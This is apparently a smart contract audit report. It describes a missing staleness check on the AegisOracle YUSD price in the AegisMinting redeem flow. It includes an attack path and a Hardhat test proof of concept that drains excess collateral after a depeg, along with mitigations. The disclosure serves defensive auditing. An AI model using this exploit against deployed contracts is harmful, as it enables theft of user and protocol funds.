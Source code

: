 Hollow Flaxen Millipede

Medium

# missing staleness check in `AegisOracle` can lead to collateral asset being stolen from the protocol if stale price is used when YUSD depeg from 1 dollar

### Summary

When AegisOracle is used for price calculations only the `AegisOracle::yusdUSDPrice` is used which can lead to stale prices being reported, since the `_priceData.timestamp` is not utilised for validation.

### Root Cause

At [AegisMinting.sol#L822](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L822) only the YUSD price is used from the oracle which can lead to stale prices being reported and ultimately false calculations being made potentially highly affect the redeem flow and resulting in collateral assets being stolen from the protocol.

### Internal Pre-conditions

1. AegisOracle is not updated after a price depeg
2. if `whitelistEnabled` is set to `true` only whitelisted users can execute the attack, but considering how is easy is to bypass KYC this is not a huge limiting factor. If `whitelistEnabled` is set to `false` anyone can exploit it.

### External Pre-conditions

1. YUSD depeg from 1 USD

### Attack Path

1. YUSD depeg and attacker buys YUSD let's say at 0.6 USD price for $100
2. attacker submits a requestReedem order
3. [_getAssetYUSDPriceOracle](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L770) will use the stale USD price if not updated frequently -> calculates incorrect collateral amount based on stale price (it should calculate $60 worth but since it's not updated it will calculate the full $100)
4. attacker obtains more collateral and effectively stealing from the protocol

### Impact

If the oracle wasn't updated frequently (stale price is set on the oracle) and the YUSD price depeg from 1 dollar it can lead to unwanted scenarios. Let's say the oracle still reports 1 USD/YUSD but the YUSD depegged to 0.6 which can lead to attackers taking advantage of this. Buying a lot of YUSD on the market then submit a requestReedem where they can successfully take more collateral out which would be actually allowed and effectively stealing from the protocol.

### PoC

Paste the following test bellow [6_aegis_minting_redeem.spec.ts#L706](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/test/6_aegis_minting_redeem.spec.ts#L706) into the `success` cases. The test demonstrates the attack.

```typescript
it('attacker can withdraw more collateral if AegisOracle pricefeed is not updated', async () => {
        const [owner, attacker] = await ethers.getSigners()

        const { aegisMintingContract, aegisMintingAddress, assetAddress, assetContract, yusdContract, aegisConfig } = await loadFixture(deployFixture)

        await aegisMintingContract.grantRole(FUNDS_MANAGER_ROLE, owner)
        // attacker needs to be whitelisted because whitelistEnabled is set to true
        await aegisConfig['whitelistAddress(address,bool)'](attacker, true)

        const feedRegistry = await ethers.deployContract('FeedRegistry')
        await aegisMintingContract.grantRole(SETTINGS_MANAGER_ROLE, owner)
        await aegisMintingContract.setFeedRegistryAddress(feedRegistry)
        // chainlink feed
        await feedRegistry.setPrice(assetContract, USD_FEED_ADDRESS, '100000000')

        const aegisOracle = await ethers.deployContract('AegisOracle', [[owner], owner])
        await aegisOracle.setOperator(owner, true)
        await aegisMintingContract.setAegisOracleAddress(aegisOracle)
        // aegis oracle
        await aegisOracle.updateYUSDPrice('100000000')

        const collateralAmount = ethers.parseEther('100')
        // Mint asset funds simulating deposited collateral
        await assetContract.mint(aegisMintingContract, collateralAmount)

        // forward time
        await time.increase(3600)

        // let's say YUSD depeged and the price is 0.6 USD/YUSD
        // AegisOracle price is not updated

        await yusdContract.setMinter(owner)
        // simulate attacker swapped 100 YUSD just for 60 USD
        const yusdAmount = ethers.parseEther('100') // worth only 60 USD
        await yusdContract.mint(attacker,  yusdAmount)
        await yusdContract.setMinter(aegisMintingAddress)
        // Approve YUSD for AegisMinting contract from attacker
        await yusdContract.connect(attacker).approve(aegisMintingAddress, yusdAmount)

        const requestId = 'test'
        const redeemOrder = {
          orderType: OrderType.REDEEM,
          userWallet: attacker.address,
          collateralAsset: assetAddress,
          collateralAmount: collateralAmount,
          yusdAmount: yusdAmount,
          slippageAdjustedAmount: yusdAmount,
          expiry: (await time.latest()) + 10000,
          nonce: Date.now(),
          additionalData: encodeString(requestId),
        }
        const signature = await signOrder(redeemOrder, aegisMintingAddress)

        // attacker creates a requestRedeem -> _getAssetYUSDPriceOracle uses stale price
        await expect(aegisMintingContract.connect(attacker).requestRedeem(redeemOrder, signature)).to.be.not.reverted

        const contractYUSDBalanceBefore = await yusdContract.balanceOf(aegisMintingContract)
        const userAssetBalanceBefore = await assetContract.balanceOf(attacker)

        // if priceFeed still not updated approveRedeemRequest will send out the 100 USD worth of collateral
        await expect(aegisMintingContract.approveRedeemRequest(requestId, collateralAmount)).to.
          emit(aegisMintingContract, 'ApproveRedeemRequest').
          withArgs(requestId, owner.address, attacker.address, assetAddress, collateralAmount, yusdAmount, 0).
          emit(yusdContract, 'Transfer').
          withArgs(aegisMintingContract, ethers.ZeroAddress, yusdAmount).
          emit(assetContract, 'Transfer').
          withArgs(aegisMintingContract, attacker, collateralAmount)

        const redeemRequest = await aegisMintingContract.getRedeemRequest(requestId)

        await expect(yusdContract.balanceOf(aegisMintingContract)).to.be.eventually.equal(contractYUSDBalanceBefore - yusdAmount)
        // successful exploit attacker got additional 40 USD worth of collateral because of the possible stale price being reported
        await expect(assetContract.balanceOf(attacker)).to.be.eventually.equal(userAssetBalanceBefore + collateralAmount)
        expect(redeemRequest.status).to.be.equal(RedeemRequestStatus.APPROVED)
      })
```

then run
```sh
npx hardhat test test/6_aegis_minting_redeem.spec.ts --grep 'attacker can withdraw more collateral if AegisOracle pricefeed is not updated'
```

### Mitigation

I have two mitigation proposals:

1. Since YUSD price should be reported accurate on every call the best would be to move to a similar flow what the chainlink price feed is doing. So when calling `AegisOracle::yusdUSDPrice()` it should return both `_priceData.price` and `_priceData.timestamp`. Additionally a heartbeat variable should be set on AegisOracle signalling how often price updates should happen and this would allow in `_getAssetYUSDPriceOracle` to validate the price data similarly how it is done in [_getAssetUSDPriceChainlink](https://github.com/sherlock-audit/2025-04-aegis-op-grant/blob/4aceb235db96b2299bb95ebf16e83a24f987bf3e/aegis-contracts/contracts/AegisMinting.sol#L812). 

    I assume the updates in AegisOracle happens through an automated service, which can happen to go down or run out of gas etc so the proposed mitigation would allow to act as a safety net in case of something bad happens. 

2. An alternative solution would be is to ditch AegisOracle and rely on the UniV3/V4 on chain oracle for `_getAssetYUSDPriceOracle` which would allow the team to remove the automated oracle service, reducing the external dependencies and potential exploit factors (for eg compromised AegisOracle operator).
